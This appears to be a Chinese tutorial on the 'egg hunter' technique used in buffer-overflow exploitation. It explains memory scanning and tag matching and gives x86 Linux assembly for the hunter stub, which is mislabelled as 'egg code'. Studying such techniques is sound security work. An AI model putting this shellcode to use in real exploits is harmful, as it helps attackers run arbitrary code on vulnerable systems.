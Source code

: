 ## Egg Hunter

Egg Hunter由两部分组成，一部分是Egg，一部分是Hunter。在溢出的场景中，溢出的字节有限的情况下，比较大的shellcode(Egg)塞不进去，那就把大的shellcode放到内存的其他地方，在有限的溢出空间中用小的shellcode(Hunter)，去寻找大的shellcode来执行。

Egg就是大的shellcode，Hunter就是小的shellcode。类比于web漏洞挖掘中的“小马传大马”。

## 基本原理

1) 内存扫描

Linux下使用access、sigaction等内核函数来做判断，如果地址不可访问，这些函数会返回0xf2。
Windows下也有类似的函数，如IsBadReadPtr、NtDisplayString函数。

如果当前地址不可访问，则跳到下一个内存页。因为内存一般都是4k大小页对齐的，所以当前地址无法访问则可以判定该地址所在内存页都无法访问，可以提高扫描速度。

2) 对比关键字

不采用shellcode的前几个字节作为标记（不够独特），由我们自己指定标记，且为了避免检索到hunter页自身的标记，我们需要在设置egg页标记时应该重复两次。Hunter在比较的时候，连续比较两次标记，则认为找到Egg。

## 代码

* x86  egg code :

```c
_start:
xor ecx, ecx
mul ecx

next_page:
or dx, 0xfff  // 4kb=0x1000
inc edx

lea ebx, [edx]
xor eax, eax
mov al, 0x21
int 0x80  // call access

cmp al, 0xf2  
jz next_page

call here

.string "\x31\x31\x31\x31" // compare sign

here:
pop eax
mov eax, [eax]
mov edi, edx
scasd
// scasd   eax,DWORD PTR es:[edi] -> edi+4
jnz next_page

scasd
jnz next_page  // repeat compare sign 


find:

jmp edi

```